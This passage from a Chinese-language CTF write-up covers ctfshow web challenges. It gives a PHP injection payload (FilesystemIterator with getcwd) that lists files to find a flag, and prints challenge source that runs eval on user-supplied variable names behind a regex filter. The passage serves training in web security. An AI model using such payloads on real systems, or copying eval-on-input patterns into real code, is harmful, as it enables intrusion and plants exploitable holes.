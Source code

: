 **payload:**

```
?v1=FilesystemIterator&v2=getcwd 
```

构造后回显一个`fl36dga.txt`，访问得到flag

**原理：**

### FilesystemIterator

获取指定目录下的所有文件

### getcwd()函数

获取当前工作目录 返回当前工作目录

## web111

```
<?php

highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}

if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v2)){
            die("error v2");
    }

    if(preg_match('/ctfshow/', $v1)){
            getFlag($v1,$v2);
    }
}

?> 
```

这里给v1和v2赋值，然后v2的值又会赋给v1，覆盖v1原来的值
